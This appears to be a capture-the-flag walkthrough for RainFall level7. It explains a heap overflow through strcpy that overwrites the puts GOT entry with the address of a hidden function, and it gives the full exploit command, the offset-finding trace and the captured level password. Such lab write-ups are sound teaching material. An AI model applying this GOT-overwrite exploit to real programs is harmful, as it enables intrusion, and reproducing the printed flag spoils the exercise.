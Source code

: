 # Walkthrough

## Solution

```
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1666004181
 ```

## Explanation

### Execution

```
level7@RainFall:~$ ./level7 
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello
Segmentation fault (core dumped)
level7@RainFall:~$ ./level7 hello hello
~~
```  
-> The program takes 2 arguments and prints "~~"

### Disassembly

```
info var:
0x08049960  c

info function
0x080484f4  m
0x08048521  main
```

You can view the commented asm code [here](Ressources/assembly.asm)  
You can view the asm code translated to C [here](source.c)  

### Steps

The main stores the .pass file in the c variable, but doesn't print it.  
-> We need to call the m function that is not called, but that prints the c variable.  

Let's try to call the m function instead of the puts function.  

Address of m: 0x080484f4  
Address of puts in the GOT, as the address in the PLT is read-only: 0x08049928  
```
level7@RainFall:~$ objdump -R ./level7
./level7:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
08049928 R_386_JUMP_SLOT   puts
```

-> we need to replace the address of puts by the address of m.
`
man strcy:
 If the destination string of a strcpy() is not large enough, then anything might happen.  Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.
`

-> We can overflow with strcpy.

- Find the overflow offset:
```
level7@RainFall:~$ ltrace ./level7 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac
__libc_start_main(0x8048521, 2, 0xbffff794, 0x8048610, 0x8048680 <unfinished ...>
malloc(8)                                                = 0x0804a008
malloc(8)                                                = 0x0804a018
malloc(8)                                                = 0x0804a028
malloc(8)                                                = 0x0804a038
strcpy(0x0804a018, "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"...) = 0x0804a018
strcpy(0x37614136, NULL <unfinished ...> --> 20 in the Buffer Overflow pattern generator
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```  
--> offset is at 20  

- Build the command  

```
./level7 arg1 arg2
arg1 = x padding to overflow into 3rd malloc, and replace ptr2[1] with address of puts
arg2 = address of m
```
-> so that we have strcpy(dest: &puts, src: &m), so when we call puts("~~"), we will call m in reality.

- Final Command  

```
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1666004181
```
